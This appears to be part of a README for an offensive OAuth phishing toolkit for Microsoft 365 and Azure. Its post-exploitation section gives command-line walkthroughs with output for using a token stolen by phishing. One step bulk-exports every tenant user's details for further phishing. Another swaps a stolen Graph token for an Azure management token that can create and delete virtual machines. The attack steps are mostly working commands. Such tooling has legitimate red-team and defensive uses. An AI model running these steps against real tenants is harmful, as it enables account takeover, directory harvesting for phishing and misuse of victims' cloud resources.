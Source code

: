 A scopes.txt file is simply a list of scopes separated by newlines such as the following:

```
User.ReadBasic.All
Mail.Read
```

The `--scopes` file should only list Graph API permissions and if you would like to also request Azure user_impersonation privileges you will need to specify the `--azure` argument along with the customized `--scopes` flag for a custom list of graph scopes. 

## Post Exploitation Leveraging OAuthPillage Utility

After performing a phishing attack with OAuthSeeker it's then possible to leverage the JWT obtained through the phishing attack in the admin panel with the OAuthPillage utility to then bulk export information on all users within the tenant for further phishing attacks:

```bash
$ oauthpillage extract users --format csv --token $JWT
ID,Display Name,Given Name,Surname,User Principal Name,Mail,Mobile Phone,Business Phones,Job Title,Office Location,Department
[REDACTED],John Smith,John,Smith,john.smith@example.com,,,,,,
[REDACTED],Jane Doe,Jane,Doe,jane.doe@example.com,,,,,,
[...]
```

## Post Exploitation Leveraging OAuthAzure Utility

After an attacker gains initial access to a user's account while using the `--azure` flag to obtain the user_impersonation permission they can then leverage the OAuthAzure utility to exchange their Microsoft Graph token obtained from OAuthSeeker for a JWT that can be leveraged against the Microsoft Azure management interface. This allows the attacker to perform essentially the same operations they could normally be able to perform from the Microsoft Azure CLI such as creating, deleting, and managing virtual machines among other items.

To start, an attacker can leverage the `oauthazure exchange` command to exchange their graph token for an azure management token as shown in the following command:

```bash
$ oauthazure exchange $JWT $REFRESH --client-id [REDACTED] --client-secret [REDACTED]
Granted scopes: https://management.azure.com/user_impersonation https://management.azure.com/.default

New access token: [REDACTED]
$
```

After performing the exchange the attacker can then use the `oauthazure info` command to view information about the obtained token if they would like to confirm the token is actually targeted at the azure management interface:

```bash
$ oauthazure info $JWT
Token Information:
Username: [REDACTED]
Client ID: [REDACTED]
Tenant ID: [REDACTED]
Object ID: [REDACTED]
Audience: https://management.azure.com
Scopes: user_impersonation
Expires: 2025-01-08 18:05:47 +0000 WET
$
```
